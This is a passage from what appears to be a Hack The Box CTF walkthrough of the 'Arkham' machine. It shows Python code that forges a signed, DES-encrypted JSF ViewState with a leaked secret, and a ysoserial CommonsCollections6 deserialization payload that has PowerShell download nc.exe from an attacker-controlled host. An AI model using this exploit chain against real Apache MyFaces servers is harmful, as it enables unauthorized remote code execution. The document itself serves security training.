 ```python
  viewstate = [viewstate[n:n+8] for n in xrange(0, len(viewstate), 8)]
  viewstate = "".join(map(des.encrypt, viewstate))
  viewstate += hmac.new(secret, viewstate, hashlib.sha1).digest()
  viewstate = base64.b64encode(viewstate)

  return viewstate
```

From `web.xml.bak` we got the secret, which is the same for both DES and HMAC-SHA1.

<a class="image-popup">
![52d81155.png](/assets/images/posts/arkham-htb-walkthrough/52d81155.png)
</a>

Let's give it a shot.

<a class="image-popup">
![128b9cfd.png](/assets/images/posts/arkham-htb-walkthrough/128b9cfd.png)
</a>

It's a serialized Java object indeed!

Now, we can use `ysoserial` to generate a payload and sneak it into the view state.

The Apache MyFaces 1.2 project page lists the Commons Collections framework as one of its dependencies. Let's use it to generate our payload, specifically CommonsCollections6 for commons-collections:3.1.

```
# java -jar ysoserial.jar CommonsCollections6 'powershell Invoke-WebRequest http://10.10.12.32/nc.exe -OutFile nc.exe' > payload
```

The first payload is to copy a `nc.exe` to the current directory or folder, wherever that may be, using PowerShell.

<a class="image-popup">
![38294c3a.png](/assets/images/posts/arkham-htb-walkthrough/38294c3a.png)
</a>


[1]: https://www.hackthebox.eu/home/machines/profile/179
[2]: https://www.hackthebox.eu/home/users/profile/8308
[3]: https://www.hackthebox.eu/